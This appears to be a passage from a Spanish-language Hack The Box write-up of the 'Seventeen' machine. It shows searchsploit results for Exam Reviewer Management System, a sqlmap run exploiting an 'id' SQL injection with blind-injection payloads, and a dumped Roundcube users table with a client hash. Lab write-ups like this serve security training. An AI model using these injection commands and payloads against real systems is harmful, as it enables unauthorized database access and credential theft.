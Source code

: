 ```shell
Exam Reviewer Management System 1.0 - Remote Code Execution (RCE) (Authenticated)                                                                      | php/webapps/50726.txt
Exam Reviewer Management System 1.0 - ‘id’ SQL Injection                                                                                           | php/webapps/50725.txt
```
El útimo llama la atención, revisamos que es y muestra una inyección sql sobre el parámetro id, procedos a probarlo con sql map y efectivamente es vulnerable a inyección sql.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Seventeen$ sqlmap 'http://exam.seventeen.htb?p=take_exam&id=1' -p id -D roundcubedb -T users --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.12#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:15:30 /2023-05-01/

[22:15:30] [INFO] resuming back-end DBMS 'mysql' 
[22:15:30] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=2e8c1ef177d...70205a6f98'). Do you want to use those [Y/n] 
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 1790=1790 AND 'kbHu'='kbHu

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=take_exam&id=1' AND (SELECT 9128 FROM (SELECT(SLEEP(5)))gdqd) AND 'Xvvf'='Xvvf
<SNIP>
Database: roundcubedb
Table: users
[1 entry]
+---------+---------------------+------------+-----------+------------+---------------------+-------------------------------------------------------------------+---------------------+----------------------+
| user_id | created             | username   | mail_host | language   | last_login          | preferences                                                       | failed_login        | failed_login_counter |
+---------+---------------------+------------+-----------+------------+---------------------+-------------------------------------------------------------------+---------------------+----------------------+
| 1       | 2022-03-19 21:30:30 | smtpmailer | localhost | en_US      | 2022-03-22 13:41:05 | a:1:{s:11:"client_hash";s:32:"0db936ce29d4c4d2a2f82db8b3d7870c";} | 2022-03-23 15:32:37 | 3                    |
+---------+---------------------+------------+-----------+------------+---------------------+-------------------------------------------------------------------+---------------------+----------------------+
```
```shell
[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb

```
